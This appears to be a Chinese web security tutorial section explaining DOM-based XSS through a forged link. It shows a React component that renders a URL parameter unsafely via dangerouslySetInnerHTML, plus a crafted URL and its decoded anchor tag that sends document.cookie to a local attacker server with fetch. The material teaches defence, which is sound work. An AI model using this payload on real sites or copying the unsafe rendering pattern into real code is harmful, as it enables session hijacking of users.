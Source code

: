 ### <a name="href6-8">伪造链接</a> ###

伪造链接的 XSS 攻击，其实就是 DOM 型 XSS 攻击，我们设计这么一个页面，通过获取 URL 查询字符串中的 name 字段，将其直接用 dangerouslySetInnerHTML 渲染到页面上，受害者客户端的代码是这样子的:

```
export class User extends React.Component {
    render() {
        const { theme } = this.props;
        const { query } = new Url(window.location.href.replace('/#', ''), true);

        return (
            <div className={`${styles['user-container']} ${theme}`}>
                <label>Name: </label>
                <span dangerouslySetInnerHTML={{ __html: query.name }} />
            </div>
        );
    }
}
```

正常的页面链接是这样的: `http://127.0.0.1:20151/#/user?name=WJT20`。

攻击者只要修改一下链接，例如改成这样子`http://127.0.0.1:20151/#/user?name=<a onclick%3D"fetch('http%3A%2F%2F127.0.0.1%3A2222%2Freceive%2F'%2BencodeURIComponent(document.cookie))" href%3D"javascript%3Avoid(0)">WJT20<%2Fa>`，即可在页面上伪造出一个链接，用户可能被超链接样式所迷惑，然后就去点击超链接，结果发现没有任何反应，其实这时候他的 cookie 已经通过 fetch 发送到了攻击者的服务器:

![image](https://raw.githubusercontent.com/WebUnion-core/anthill/master/WJT20/images/w141.png)

将此 URL 上的`<a onclick%3D"fetch('http%3A%2F%2F127.0.0.1%3A2222%2Freceive%2F'%2BencodeURIComponent(document.cookie))" href%3D"javascript%3Avoid(0)">WJT20<%2Fa>`部分格式化后你就会发现，这其实就是一个a标签:

```
<a onclick=\"fetch('http://127.0.0.1:2222/receive/'+encodeURIComponent(document.cookie))\" href=\"javascript:void(0)\">WJT20</a>
```

---

```
ID         : 134
DATE       : 2019/08/06
AUTHER     : WJT20
TAG        : 安全防护
```
